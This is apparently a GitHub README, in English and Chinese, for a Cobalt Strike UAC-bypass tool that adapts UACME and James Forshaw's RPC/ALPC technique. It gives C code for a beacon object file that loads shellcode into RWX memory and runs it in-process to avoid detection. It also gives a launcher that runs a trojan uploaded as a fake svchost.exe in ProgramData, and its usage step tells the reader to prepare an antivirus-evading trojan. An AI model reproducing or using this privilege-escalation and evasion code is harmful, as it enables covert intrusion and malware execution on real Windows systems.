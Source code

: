 # UAC Bypass 

This amazing trick by James Forshaw was released in 2019 [Project Zero - Calling Local Windows RPC Servers from .NET](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html) allow you to bypass UAC using only 2 RPC requests instead of DLL hijack. Basically rewritten from [hfiref0x/UACME](https://github.com/hfiref0x/UACME).

Tested works well on Windows 11 :)

魔改自：https://github.com/aaaddress1/PR0CESS/tree/main/UACBypassJF_RpcALPC

## BOF

编写BOF在当前进程中执行Shellcode，没有spawn和inject高危操作产生，但会牺牲当前的beacon（注）。

```C
datap   parser;
LPBYTE  lpShellcodeBuffer = NULL;

DWORD   dwShellcodeBufferSize = 0;
LPVOID  pMem;
SIZE_T  bytesWritten = 0;
DWORD  dwThreadId = 0;

BeaconDataParse(&parser, buff, len);
lpShellcodeBuffer = (LPBYTE)BeaconDataExtract(&parser, (int*)(&dwShellcodeBufferSize));
pMem = VirtualAlloc(0, dwShellcodeBufferSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(GetCurrentProcess(), pMem, lpShellcodeBuffer, dwShellcodeBufferSize, &bytesWritten);
((void(*)())pMem)();
```



## RpcALPC

默认执行`C:\ProgramData\USOShared\svchost.exe`该程序，编写cna的时候会自动上传木马到这个文件，并重命名为`svchost.exe`。

```C
int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    if (FAILED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED))) return -1;
    wchar_t buff[256] = L"C:\\ProgramData\\USOShared\\svchost.exe";
    //MultiByteToWideChar(CP_ACP, 0, lpCmdLine, -1, buff, sizeof(buff) / sizeof(wchar_t));
    ucmDebugObjectMethod(buff);
}
```



## Usage

准备一个免杀木马，然后选择对应选项。

![image-20231123001429690](./assets/image-20231123001429690.png)

![image-20231122234858214](./assets/image-20231122234858214.png)

![image-20231122235225464](./assets/image-20231122235225464.png)
